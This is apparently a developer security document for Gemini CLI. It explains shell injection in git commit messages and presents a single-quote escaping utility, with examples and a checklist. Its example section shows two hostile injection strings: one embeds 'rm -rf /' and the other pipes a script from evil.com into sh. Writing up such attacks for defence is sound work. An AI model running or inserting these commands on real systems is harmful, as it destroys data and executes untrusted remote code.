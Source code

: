 # Shell Injection Prevention in Gemini CLI

## Overview

This document describes the security measures implemented in Gemini CLI to prevent shell injection vulnerabilities, particularly in git commit messages and other shell commands.

## The Vulnerability

When constructing shell commands with user-provided input, special characters can be interpreted by the shell, leading to command injection. This is particularly dangerous with:

- **Backticks (`)**: Execute commands and substitute their output
- **Dollar signs ($)**: Variable expansion and command substitution with `$()`
- **Semicolons (;)**: Command chaining
- **Pipes (|)**: Command piping
- **Redirections (>, <)**: File operations

### Example Attack Vector

```bash
# Dangerous - backticks execute embedded commands
git commit -m "Fix `rm -rf /` issue"  # Would execute rm command!

# Dangerous - command substitution
git commit -m "Update $(curl evil.com/script.sh | sh)"
```

## The Solution

### 1. Shell Escape Utility

We've implemented a robust shell escaping utility in `packages/core/src/utils/shellEscape.ts`:

```typescript
export function escapeShellArg(str: string): string {
  // Empty strings become ''
  if (str === '') return "''";
  
  // Check for special characters
  const needsEscaping = /[^A-Za-z0-9_\-.\/]/.test(str);
  
  if (!needsEscaping) return str;
  
  // Use single quotes to prevent ALL expansions
  // Escape single quotes by ending quote, adding \', and starting new quote
  return "'" + str.replace(/'/g, "'\\''") + "'";
}
```

### 2. AI Prompt Instructions

The AI model is instructed to:
- Always use single quotes for shell arguments containing special characters
- Properly escape single quotes within messages
- Never use double quotes for user-provided content (as they allow some expansions)

### 3. Safe Usage Examples

```bash
# Safe - single quotes prevent all expansions
git commit -m 'Fix `ComponentName` rendering issue'

# Safe - properly escaped single quote
git commit -m 'Fix Mary'\''s code'

# Safe - complex message with multiple special characters
git commit -m 'Update code for `$USER` @ $(date)'
```

## Implementation Details

### Why Single Quotes?

Single quotes in bash/sh provide the strongest protection:
- **Double quotes** (`"`) still allow: `$`, `` ` ``, `\`, `!` expansions
- **Single quotes** (`'`) prevent ALL expansions except for the single quote itself
- **Escaping single quotes**: Use `'\''` pattern (end quote, escaped quote, start quote)

### Testing

Comprehensive test cases cover:
- Command substitution attempts (backticks and `$()`)
- Variable expansion attempts
- Special characters and operators
- Unicode and international characters
- Edge cases (empty strings, only special characters)

## Best Practices for Contributors

When adding new shell command features:

1. **Always escape user input**: Use `escapeShellArg()` for any user-provided content
2. **Prefer structured APIs**: When possible, use Node.js APIs instead of shell commands
3. **Validate input**: Check for malicious patterns before processing
4. **Test thoroughly**: Add test cases for security scenarios
5. **Document security considerations**: Note any security implications in code comments

## Verification

To verify the fix works correctly:

```bash
# Test with the escaping utility
npm test packages/core/src/utils/shellEscape.test.ts

# The AI should now properly escape:
# Input: "Fix `bug` in code"
# Output: git commit -m 'Fix `bug` in code'
```

## Security Audit Checklist

- [x] All user input is escaped before shell execution
- [x] Single quotes used for maximum protection
- [x] Comprehensive test coverage for edge cases
- [x] AI model instructed on proper escaping
- [x] Documentation provided for future contributors
- [x] No use of `eval` or similar dangerous constructs

## References

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Bash Manual - Quoting](https://www.gnu.org/software/bash/manual/html_node/Quoting.html)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)

---

*Last updated: December 2024*
*Security contact: security@gemini-cli.dev*